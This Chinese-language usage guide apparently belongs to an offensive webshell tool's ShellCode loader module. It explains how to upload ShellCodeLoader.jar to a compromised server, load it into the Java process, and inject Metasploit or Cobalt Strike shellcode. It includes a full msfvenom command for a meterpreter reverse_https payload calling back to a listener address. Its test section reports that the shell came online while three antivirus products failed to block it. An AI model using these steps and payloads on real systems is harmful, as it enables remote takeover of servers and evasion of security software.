 内置两种加载方式，使用之前请务必认真阅读使用说明，否则可能直接将Java进程打挂。



需要注意两点：

- 使用MSF需要加上`PrependMigrate=true PrependMigrateProc=xxxx.exe`参数，自动迁移到新的进程，否则会在migrate/exit的时候把Java进程给干掉，导致网站瘫痪。例如：`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.88.129 LPORT=8888  PrependMigrate=true PrependMigrateProc=svchost.exe -f hex`
- JNA方式只需要X86类型的ShellCode即可，而Attach方式需要根据目标Java位数来选择对应的ShellCode。

### JNA方式

利用第三方库JNA进行ShellCode的加载。

适用范围：JDK>=1.5

#### 正确操作

1. 首先利用Jar加载器将`ShellCodeLoader.jar`上传到目标服务器目录并加载。
2. 使用MSF或者CS生成x86类型的shellcode，并开启监听。

1. 在ShellCode加载器模块，输入hex或者java格式的shellcode，且不能有多余换行跟空格。
2. 点击exploit，等待返回回话。

#### JNA方式测试

装了360，火绒，电脑管家

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1620703761091-757ec1a0-dc22-42a8-8264-90186857e093.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1620703768557-ead0e8b9-01af-40c1-829f-859f05e3f381.png)

上传插件ext目录下的ShellcodeLoader.jar到目标服务器，然后复制文件路径

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1621067128068-3e3004d7-9cf1-4997-b352-c06e2cbd8d1b.png)

手动加载到JVM中

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1621067132501-eb56f724-4191-4014-b940-acc602519116.png)

MSF生成Shellcode

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1621067117069-28df9a49-30b4-4178-9228-51a948f0e854.png)

选择JNA方式，exploit!

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1621067139961-3e021c58-560c-4283-b7d9-5379fffb27ed.png)

直接上线，杀软没有拦截

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1621067110644-490c6992-1f0e-4228-9124-1dd5dfd634d2.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1621067151696-a2c1fe78-b091-481f-b3d0-48fbd70893fe.png)


